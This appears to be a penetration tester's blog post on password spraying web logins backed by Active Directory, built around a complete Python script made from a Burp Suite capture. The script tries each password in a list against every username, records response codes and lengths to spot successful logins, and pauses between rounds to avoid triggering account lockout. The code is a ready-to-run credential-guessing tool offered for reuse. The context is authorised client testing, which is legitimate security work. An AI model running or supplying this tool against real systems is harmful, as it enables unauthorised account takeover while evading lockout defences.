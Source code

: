 ```yaml
---
published: true
---
```

I frequently use the Intruder tab in Burp Suite Pro to password spray websites which use Active Directory authentication. One of the problems of using Burp Suite is that there doesn't seem to be a way to avoid lockout when using a long password list. Frequently I don't get a hit on valid password on the first try with Season/Year stuff like "Winter2018!" and need to run through a list of 51 common AD passwords that I have in a file. Sure, I can paste in a list of three or four passwords (depending on my client's lockout policy), but then I have to wait X minutes and then replace those passwords with three of four more, track the time between password spray runs, etc. That's a manual process, and I'd prefer something that I can setup and just let it run to completion.

This process is going to require the Pro version of Burp Suite because you'll need to install an extension from the BApp store. In Burp Suite, install the "Copy As Python-Requests" extension. Next, proxy an authentication request to the website through Burp with Intercept on, and when it pauses on the request, right click and choose "Copy as requests". If you paste the clipboard to your editor you'll notice that each line starts with "burp0".

In the following code, you'll notice where I have placed those "burp0" lines. Paste them in to your code editor at the bottom, the cut/paste each line over the related line in this script. In the line that begins with "burp0_data", you'll need to replace the user name and password that you entered on the web page with "username" and "password" as shown below.

Once you've updated the script with your data copied using the "Copy As Python-Requests" extension, run it using the parameters shown in the usage variable. Although the script outputs to CSV which can be sorted based on content length (sort -k4 -n -t, output.csv) or opened and sorted with Gnumeric or Excel, an easier way to sort the response headers may be to proxy the requests through Burp Suite and sort them there. An easy way to proxy through Burp without having to modify the script is to set an environmental variable: export HTTPS_PROXY=“http://127.0.0.1:8080”

The script also prints timestamps to the screen which is useful for those times that you get blamed for locking out users. I believe in logging everything, and this has saved my reputation more than once when I was blamed for account lockouts which ended up being caused by something in the clien't environment.

```python
import requests
import sys
import time
from datetime import datetime

usage = "usage: python3 passwordSpray.py [/path/to/usernames.file] [/path/to/passwords.file] [minutes between each password loop] [output filename (csv)]"
if len(sys.argv) != 5:
    sys.exit(usage)
usernames = [line.rstrip('\n') for line in open(sys.argv[1])]
passwords = [line.rstrip('\n') for line in open(sys.argv[2])]
sleep_time = int(sys.argv[3]) * 60
report_header = "Username,Password,ResponseCode,ResponseLength,Redirects\n"
with open(sys.argv[4], 'w') as csvfile:
    csvfile.write(report_header)

burp0_url = "https://[redacted]:443/j_security_check"
burp0_cookies = {"redacted"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://[redacted]/j_security_check", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

for password in passwords:
    report_output = []
    for username in usernames:
        burp0_data={"j_username": username, "j_password": password, "browserLocale": "en_us", "domainName": "trust", "AUTHRULE_NAME": "ADAuthenticator", "buildNum": "100310", "clearCacheBuildNum": "100148"}
        request = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        report_output.append(f'{username},{password},{request.status_code},{len(request.content)},{len(request.history)}')
    with open(sys.argv[4], 'a', newline='') as csvfile:
        csvfile.write('\n'.join(report_output))
    print("Completed spraying with password: {}. Time: {}".format(password, datetime.now().time()))
    print("Sleeping for {} minutes".format(sys.argv[3]))
    time.sleep(sleep_time)
```
